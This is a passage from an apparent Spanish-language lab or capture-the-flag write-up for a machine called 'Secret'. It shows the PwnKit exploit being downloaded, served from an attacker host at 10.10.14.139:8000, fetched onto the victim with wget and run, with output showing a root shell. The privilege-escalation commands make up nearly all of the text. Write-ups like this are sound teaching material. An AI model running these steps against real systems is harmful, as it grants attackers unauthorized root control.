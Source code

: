 Nos descargamos el binario

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Secret]
└──╼ #curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Secret]
└──╼ #ll PwnKit 
Permissions Size User        Date Modified Name
.rwxrwxrwx   14k angussmoody  4 feb 23:29  PwnKit
```

Y no lo pasamos a nuestra máquina victima y nos descargamos el binario

```csharp
dasith@secret:/tmp$ wget http://10.10.14.139:8000/Pwnkit
wget http://10.10.14.139:8000/Pwnkit
--2022-02-05 04:36:12--  http://10.10.14.139:8000/Pwnkit
Connecting to 10.10.14.139:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14688 (14K) [application/octet-stream]
Saving to: ‘Pwnkit’

Pwnkit              100%[===================>]  14.34K  --.-KB/s    in 0.08s   

2022-02-05 04:36:12 (180 KB/s) - ‘Pwnkit’ saved [14688/14688]

dasith@secret:/tmp$ chmod +x Pwnkit
chmod +x Pwnkit
dasith@secret:/tmp$ ./Pwnkit
./Pwnkit
root@secret:/tmp# whoami && id && hostname
whoami && id && hostname
root
uid=0(root) gid=0(root) groups=0(root),1000(dasith)
secret
```